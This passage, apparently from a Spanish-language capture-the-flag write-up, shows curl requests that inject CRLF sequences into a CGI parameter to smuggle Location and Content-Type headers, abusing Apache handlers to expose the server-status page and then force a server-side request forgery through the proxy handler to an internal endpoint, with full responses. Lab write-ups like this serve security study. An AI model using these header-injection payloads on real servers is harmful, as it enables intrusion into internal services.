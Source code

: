 ```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aLocation:/hfc%0d%0aContent-Type:server-status%0d%0a%0d%0a'
HTTP/1.1 200 OK
Date: Wed, 26 Mar 2025 03:16:46 GMT
Server: Apache/2.4.54 (Debian)
Vary: Accept-Encoding
Content-Length: 4536
Content-Type: text/html; charset=ISO-8859-1

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html><head>
<title>Apache Status</title>
</head><body>
<h1>Apache Server Status for 83.136.249.227 (via 192.168.63.136)</h1>

<dl><dt>Server Version: Apache/2.4.54 (Debian) PHP/7.4.33</dt>
<dt>Server MPM: prefork</dt>
<dt>Server Built: 2022-06-09T04:26:43
</dt></dl><hr /><dl>
<dt>Current Time: Wednesday, 26-Mar-2025 03:16:47 UTC</dt>
<dt>Restart Time: Wednesday, 26-Mar-2025 03:04:40 UTC</dt>
<dt>Parent Server Config. Generation: 1</dt>
<dt>Parent Server MPM Generation: 0</dt>
<dt>Server uptime:  12 minutes 6 seconds</dt>
<dt>Server load: 0.15 0.23 0.20</dt>
<dt>Total accesses: 7 - Total Traffic: 4 kB - Total Duration: 503</dt>
<dt>CPU Usage: u.03 s.03 cu.02 cs.01 - .0124% CPU load</dt>
<dt>.00964 requests/sec - 5 B/second - 585 B/request - 71.8571 ms/request</dt>
<dt>1 requests currently being processed, 5 idle workers</dt>
<--REDACTED-->
```

Una vez confirmado, usé el handler `proxy` para forzar un _SSRF_ completo, es decir, teniendo control sobre el destino, recurso, parámetros y encabezados de la petición. De esta manera, finalmente fue posible interactuar con `attack-ip` (pues la petición se origina desde el propio servidor).

```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aLocation:/hfc%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=127.0.0.1%26name=v%0d%0a%0d%0a'
HTTP/1.1 302 Found
Date: Wed, 26 Mar 2025 03:19:21 GMT
Server: Apache/2.4.54 (Debian)
Location: ../?result=Succesfully attacked 127.0.0.1!
Content-Length: 301
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="../?result=Succesfully attacked 127.0.0.1!">here</a>.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```
